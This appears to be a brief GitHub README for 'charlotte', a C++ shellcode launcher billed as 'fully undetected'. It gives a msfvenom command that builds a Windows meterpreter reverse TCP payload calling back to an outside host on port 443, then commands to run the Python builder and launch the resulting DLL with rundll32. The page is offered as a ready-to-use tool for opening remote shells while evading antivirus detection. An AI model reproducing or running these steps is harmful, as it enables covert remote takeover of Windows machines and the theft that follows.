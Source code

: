 # c++ shellcode lanucher

## charlotte

c++ fully undetected shellcode launcher

https://github.com/9emin1/charlotte

### Payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.46 LPORT=443 -f raw > beacon.bin
```

### Run charlotte

```
python charlotte.py
```

```cmd
rundll32.exe charlotte.dll, mtd3ewcv
```
